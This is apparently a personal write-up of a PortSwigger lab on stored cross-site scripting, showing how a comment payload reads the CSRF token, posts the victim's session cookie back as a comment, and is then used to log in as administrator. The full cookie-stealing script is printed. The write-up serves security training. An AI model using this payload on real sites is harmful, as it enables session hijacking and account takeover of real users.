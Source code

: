 # Exploiting cross-site scripting to steal cookies | Dec 30, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies), you'll learn: Exploiting cross-site scripting to steal cookies! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230074442.png)

**In the home page, we can view one of those posts:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230074502.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230074514.png)

And we can leave some comments.

**Let's try a simple XSS payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230074713.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230074733.png)

It indeed triggered!

**Now, let's try to inject JavaScript code that will automaticatly send a POST request to leave a comment, with the session cookie!**

However, in order to steal user's session cookie, we need:

- **Find the CSRF value:**

**To do so, I'll find all `<input>` tag that is the CSRF token:**
```js
document.getElementsByTagName('input')
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230081442.png)

The first `<input>` is the CSRF token.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230081511.png)

**Then, we need to extract it's value:**
```js
document.getElementsByTagName('input')[0].value
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230081553.png)

Got it!

- **Construct the final payload:**

```html
<script>
    // Wait the window is fully loaded, otherwise the CSRF token will be empty
    window.onload = function (){
        // Fetch CSRF token value
        var csrfToken = document.getElementsByTagName('input')[0].value;

        // Construct the require POST parameters
        var data = 'csrf=' + csrfToken + '&';
        data += 'postId=8&';
        data += 'comment=' + document.cookie + '&';
        data += 'name=XSS&';
        data += 'email=xss@xss.com&';
        data += 'website='

        // Send the victim's cookie
        fetch('https://0ae1002c03c1e617c057f97200fa00c7.web-security-academy.net/post/comment',
            {
                method: 'POST',
                mode: 'no-cors',
                body: data
            }
        )
    };
</script>
```

**Let's break it down:**

1. When the window is fully loaded, fetch victim's CSRF token value.
2. Variable `data` is to construct the require POST parameters, like `csrf`, `postId`, `comment`, `name`, `email`, and `website` (This could be empty). Most importantly, in the `comment` parameter, we also include victim's session cookie.
3. When eveything is ready, send a POST request to `/post/comment`, which will post a new comment, with all the `data`.

**Finally, let's send our well-crafted XSS payload!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230084453.png)

**Then refresh the page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230084509.png)

Boom! Got ya!

**Let's copy that session cookie and replace our session cookie:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230084700.png)

We're user `administrator`!

# What we've learned:

1. Exploiting cross-site scripting to steal cookies
